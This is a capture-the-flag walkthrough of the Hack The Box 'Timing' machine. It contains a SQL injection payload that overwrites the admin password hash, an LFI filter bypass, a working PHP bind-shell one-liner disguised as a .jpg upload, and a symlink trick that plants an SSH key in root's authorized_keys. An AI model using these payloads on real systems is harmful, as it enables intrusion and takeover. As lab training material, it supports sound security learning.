


# HACKTHEBOX: Timing

*Timing* is a medium difficulty Linux box. The login page is vulnerable to username enumeration via response timing. After getting a username and logging in with their weak password, the profile update page is vulnerable to blind SQL injection. Exploit the SQLi to change the admin password and log in as admin.
After logging in as admin, there is an image upload page but it's not obvious where the image gets uploaded to. Exploiting local file inclusion in the **image.php** page discloses the contents of the image upload source code.
Reading the source code reveals that the upload filename depends on the time in seconds, making the image upload filename predictable. After uploading a PHP bind shell with a `.jpg` extension, predict the filename and exploit local file inclusion to execute the PHP bind shell.
Use the bind shell to find that there is a archived git repository in the `/opt` directory containing SSH credentials in a previous commit.
Log in via SSH into the box and run `sudo -l`. The user may run `sudo /usr/bin/netutils` as root without a password. `/usr/bin/netutils` is a shell script that runs a java application, which downloads a file.
Since this essentially gives us the ability to write arbitrary files as root, create a symlink pointing to `/root/.ssh/authorized_keys`. Then use `/usr/bin/netutils` to download your own SSH public key *with the same filename as the symlink filename*. Doing so will overwrite the `/root/.ssh/authorized_keys`, allowing you to log in as root onto the box.

## Recon and Enumeration
First, run an nmap scan on the timing box. OpenSSH is running on port 22 and an Apache2 web app is running on port 80.


#### Enumerating port 80
Visit the web app in a web browser, and it's a simple web app running PHP.


Attempting to log in with the creds `admin:admin` fails.


Run a ffuf scan on the web application using the wordlist `raft-large-files.txt`. There are a few interesting php files such as `upload.php` (which we don't have permission to access) and `db_conn.php` (but we can't read the PHP source).


#### Username enumeration via response timing
The box name *timing* gives a big hint to attempt timing-related exploits, such as username enumeration via response timing.
Use Burp Suite's *Intruder* to position the intruder's sniper on the user parameter.


Set the payload to the wordlist `SecLists/Usernames/Names/names.txt`


Start the attack. Select and sort by Colums-->Response received to view the response time. There are two users, aaron and admin, with response times that are much longer than the rest of the users.


Log into the web app with the creds `aaron:aaron`


#### Enumerating the user profile
There is a page called `profile.php` which allows the user to update their first name, last name, company, and email.


Viewing the response to `profile_update.php` shows the username, password hash, last name, first name, email, role, and company.


After inserting special characters into the inputs, we find that if we input a single quote `'` into one of the parameters, the profile  does not update.
For example after sending:
```
firstName=h'ello&lastName=world&email=iam&company=aaron
```
The profile does not update. This suggests that this form may be vulnerable to some sort of json injection or interoperability, or even SQL injection.


Try to test for json injection by trying to url encode the payload `test','id':'1','0':1','username':'admin','1':'1'` at the end of the form. It gives an error:
> :  PDOStatement::execute(): SQLSTATE[HY093]: Invalid parameter number: no parameters were bound in **/var/www/html/profile_update.php**


This error message shows that `profile_update.php` is interacting with an SQL database.

## Exploitation and user.txt
#### SQL Injection
In Burp Suite's *Repeater*, right click and *Save item* as `profile_update.burp`. Test for SQL injection with the command `sqlmap -r $PWD/profile_update.burp --level=3 --threads=10 `. Sqlmap finds sql injection in the first paramter, with `firstName=test';<SQL QUERY HERE>#...`


Use sqlmap to dump the database with the command `sqlmap -r $PWD/profile_update.burp --level=3 --dump` It abuses blind time-based sql injection to dump the *users* table on the *app* database.
```
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
| id | role | email | company | lastName | password                                                     | username | firstName |
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
| 1  | 1    | test  | test    | test     | $2y$10$ubvjLBABd7Rw7g.tZJh8gOABFO9l5v0xDDur8FxNUZSWrVXlQOrpe | admin    | test      |
| 2  | 0    | test  | test    | test     | $2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq | aaron    | test      |
+----+------+-------+---------+----------+--------------------------------------------------------------+----------+-----------+
```
We already know aaron's password is aaron, and attempting to crack admin's password. Abuse SQL injection to change admin's password to the same password as aaron with the SQL injection payload:
```
';UPDATE users SET password='$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq' where id = 1#
```


This payload changes the admin password to `aaron`, so log in to the site with the creds `admin:aaron`


#### Enumerating the Admin panel
The admin user has access to an admin panel, which lets them upload a file. Attempting to upload the file `alterego.png` returns an error message
> Error: This extension is not allowed


Uploading a file ending with **.jpg** instead returns a success.


Even though the file was sucessfully uploaded, it does not tell us *where* it has been uploaded. Even if we upload a php shell, we won't be able to access it.


After inspecting the `avatar_uploader.php` page, there is a div class that sources the background image to `/image.php?img=images/background.jpg`


#### Testing **image.php** for local file inclusion
The image.php accepts a parameter `?img` and a value of a file. This page may be vulnerable to local file inclusion so this should be inspected. When inputing the background image at `images/background.jpg`, the page returns the contents as raw bytes.


Attempting to access `../../../../etc/passwd` returns a message
> Hacking attempt detected!

So the web application must do some filtering to prevent path traversal or local file inclusion.


Bypass the filter with a PHP wrapper `php://filter/convert.base64-encode/resource=/etc/passwd`


Since image.php can be accessed unauhtenticated, we can curl this url and pipe to base64. According to the `/etc/passwd` file, the two users **root** and **aaron** have bash shells.


Use this php filter to disclose the files we found earlier, `db_conn.php` and `upload.php`.

The file `db_conn.php` contains a mysql password, `4_V3Ry_l0000n9_p422w0rd`. Attempting to use this password to log in via ssh fails.


The file `upload.php` is the php file that handles the avatar image uploads, so it should give a hint about where the uploaded image goes.


#### Reviewing `upload.php`
Here is the full contents of `upload.php`
```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```

First of all, the input image gets sent to the directory `images/uploads/`


And the image must end with `.jpg`.


**upload.php** creates a unique filename. It calls the function `uniqid()` (which changes **every millisecond**) and stores the value in the variable `$file_hash`. Then, it runs `md5sum` on the `'$file_hash'` appended with the current `time()` (which changes **every second**). Then, it appends `"_<basename>"`.


There's a bug on line 12 though. Instead of hashing the contents of the variable `$file_hash`, it hashes the literal string `'$file_hash'`. This makes the resulting `$file_name` extremely predictable, because it only changes every second instead of every millisecond.

#### Predicting `$file_name`
The php function `time()` returns Unix epoc time in seconds. The script [timing.go](timing.go) predicts the uploaded filename ever second. The pseudocode for the script goes
```
while true {
    file_name = md5sum("$file_hash" + time()) + "_" + basename
    sleep(second)
}
```

Start the script to start predicting filenames every second, and upload an image.


Use ffuf to scan the `images/uploads/` directory for the predicted filenames. Here, it finds that out of the calculated possibilities, `b5f167e44d352b0f3b4188babdf15ffe_alterego.jpg` is the only one that exists.


Confirm the uploaded file in the web browser.


Confirm again that the file can be included via image.php in the ?img parameter


#### Local file inclusion-->Bind shell
Attempting to use this same technique to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) fails becase the user does not actually have privileges to send outgoing packets. To get around this, use a PHP bind shell instead.

The following php bind shell payload was saved in a file called `bind.php.jpg` to bypass the `.jpg` check.
```php
<?php $s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",9999);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}} ?>
```

Predict the filename and uplaod `bind.php.png`.


Check the possibilities for the existing file with ffuf. It finds `f1d89acc2598b3ace3e27f10898e8fbd_bind.php.jpg`


Include the bind shell by visiting `http://10.10.11.135/image.php?img=images/uploads/f1d89acc2598b3ace3e27f10898e8fbd_bind.php.jpg` and then starting a netcat connection with `nc 10.10.11.135 9999` to start the connection to the bind shell.

We now have a successful bind shell as the user **www-data**.


#### aaron's password
Inside of the `/opt` directory there is a file called **source-files-backup.zip**. Download and extract the file.


The extracted backups is a git repository. After viewing the git log, there are two commits. Viewing `git diff` on the previous commit, it's shown that the password in `db_conn.php` was changed. The old password was `S3cr3t_unGu3ss4bl3_p422w0Rd`.


Use the creds `aaron:S3cr3t_unGu3ss4bl3_p422w0Rd` to ssh into the box as aaron.


## Privilege Escalation and root.txt
#### sudo -l
The user **aaron** may run `sudo /usr/bin/netutils` as root without a password. It is a shell script that runs a java program.


#### Attempting to write to path
The shell script `/usr/bin/netutils` calls the program `java` by the relative path. If we write a shell script called `java` and add it to path, we may be able to execute an arbitrary shell script as root.

Create the shell script **java**, make it executable with `chmod +x java` and add $PWD to path.


However, this fails because of the `env_reset` entry. Aaron's environment variables are reset in sudo commands, so creating a shell script titled `java` and adding it to `$PATH` won't work.

#### Attempting command injection
When running the program as normal while watching the processes with **pspy**, we see that running the HTTP option runs a shell command, `/root/axel <url>`.


Since the program is inserting user input into a shell command, try to inject shell commands into the url. However, various methods of command injection fail.


#### Writing to `/root/.ssh/authorized_keys`
Because we can download files as root, we can essentially write arbitrary files as root. To exploit this, create a symlink pointing to **/root/.ssh/authorized_keys** and download a file containing a public ssh key.

Create an ssh keypair with `ssh-keygen`. Here, I copied the public key to a file called `backdoor`


On the box, create a symlink called `backdoor` that points to `/root/.ssh/authorized_keys`.


Run the netutils program to download the public ssh key, which is named `backdoor`. The downloaded file should overwrite the file called `backdoor`, and because it is a symlink, it will overwrite the contents of **/root/.ssh/authorized_keys**.


Finally, ssh into the box as root.

